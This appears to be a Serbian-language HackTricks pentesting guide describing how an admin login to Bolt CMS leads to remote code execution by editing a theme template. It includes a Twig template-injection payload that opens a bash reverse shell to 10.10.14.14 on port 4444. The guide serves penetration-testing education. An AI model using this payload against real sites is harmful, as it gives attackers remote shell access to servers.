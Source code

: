 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Nakon prijave kao admin (idite na /bot da pristupite login promptu), možete dobiti RCE u Bolt CMS:

- Izaberite `Configuration` -> `View Configuration` -> `Main Configuration` ili idite na URL putanju `/bolt/file-edit/config?file=/bolt/config.yaml`
- Proverite vrednost teme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Izaberite `File management` -> `View & edit templates`
- Izaberite osnovnu temu pronađenu u prethodnom (`base-2021` u ovom slučaju) koraku i izaberite `index.twig`
- U mom slučaju ovo je u URL putanji /bolt/file-edit/themes?file=/base-2021/index.twig
- Postavite svoj payload u ovu datoteku putem [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), kao: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- I sačuvajte promene

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Očistite keš u `Maintenance` -> `Clear the cache`
- Ponovo pristupite stranici kao običan korisnik, i payload bi trebao biti izvršen

{{#include ../../banners/hacktricks-training.md}}
